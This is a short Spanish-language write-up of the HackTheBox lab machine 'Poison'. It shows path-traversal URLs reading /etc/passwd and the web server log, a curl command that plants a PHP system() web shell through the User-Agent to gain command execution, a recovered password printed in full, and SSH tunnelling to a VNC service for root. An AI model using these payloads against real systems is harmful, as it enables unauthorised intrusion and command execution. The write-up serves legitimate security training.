


HackTheBox
Medium
FreeBSD
LFI
Log Poisoning
VNC
SSH Tunneling
Poison
LFI en browse.php + envenenamiento de log HTTP para RCE; contrasena en base64 multi-codificado; acceso root via VNC tunel.
cat4clysm
Herramientas utilizadas
nmap
curl
ssh
vncviewer
Scanning
root@kali:~$
nmap -sC -sV -p80,22 -n -Pn 10.10.10.84 -oN targeted
LFI + Log Poisoning
root@kali:~$
# LFI en browse.php
view-source:http://10.10.10.84/browse.php?file=/../../../../../../../../etc/passwd
view-source:http://10.10.10.84/browse.php?file=/../../../../../../../../var/log/httpd-access.logEnvenenamos el log con un User-Agent PHP y luego ejecutamos comandos:
root@kali:~$
curl -A "<?php system(\$_REQUEST['cmd']);?>" 10.10.10.84
http://10.10.10.84/browse.php?file=...httpd-access.log&cmd=cat%20pwdbackup.txt
Decodificamos el base64 multiple para obtener la contrasena: Charix!2#4%6&8(0
SSH + VNC Forwarding
root@kali:~$
ssh charix@10.10.10.84
cat /home/charix/user.txtEncontramos VNC corriendo en localhost:5901. Hacemos port forwarding:
root@kali:~$
ssh charix@10.10.10.84 -L 7777:localhost:5901
vncviewer localhost:7777 -passwd secretcat /root/root.txtLecciones aprendidas
- El LFI combinado con log poisoning permite RCE si podemos controlar el User-Agent logueado.
- La decodificacion multiple de base64 es un obfuscation comun para ocultar contrasenas.
- Los servicios VNC vinculados a localhost se pueden exponer via SSH port forwarding.